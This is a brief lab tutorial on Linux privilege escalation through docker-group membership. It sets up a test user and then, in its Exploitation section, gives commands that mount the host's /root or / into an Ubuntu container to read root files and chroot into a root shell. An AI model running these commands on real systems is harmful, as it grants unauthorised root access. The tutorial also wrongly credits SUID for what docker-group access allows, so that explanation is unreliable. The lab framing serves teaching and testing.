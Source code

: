 # SUID Docker

## <mark style="color:red;">Simulation</mark>

install docker using this:

{% embed url="https://docs.docker.com/engine/install/debian/#install-using-the-repository" %}

after the installation is completed add a new user for this test and add it to the docker group

#### `adduser test`&#x20;

#### `usermod -aG docker test`

Now ssh to the target with the new user

![](../../../../.gitbook/assets/docker.png)

we have access to the docker group

to test this run docker hello-world default image

#### `docker run hello-world`

![](../../../../.gitbook/assets/docker2.png)

what just happened was docker client connected to docker daemon and the daemon pulled the "hello-world" image from docker hub. then it created a nre container from that image and ran it. then the daemon streamed the output "Hello from Docker!" to docker client which sent it to the terminal.

## <mark style="color:red;">Exploitation</mark>

To gain a root shell, we can do this with another image like an ubuntu container:

#### `docker run ubuntu`

one of dockers features is that it can mount a directory from the host system to a directory in the container for quick file grabbing.

#### `docker run -v /root:/mnt ubuntu cat /mnt/flag.txt`

By using the -v flag we specified a volume to mount, in this case the /root directory on the host was mounted to the /mnt directory on the container. Because docker has SUID we were able to mount a root owned directory in our container!

we can get a shell using the same technique combined with the chroot command

#### `docker run -it -v /:/mnt ubuntu chroot /mnt`

![](../../../../.gitbook/assets/docker3.png)
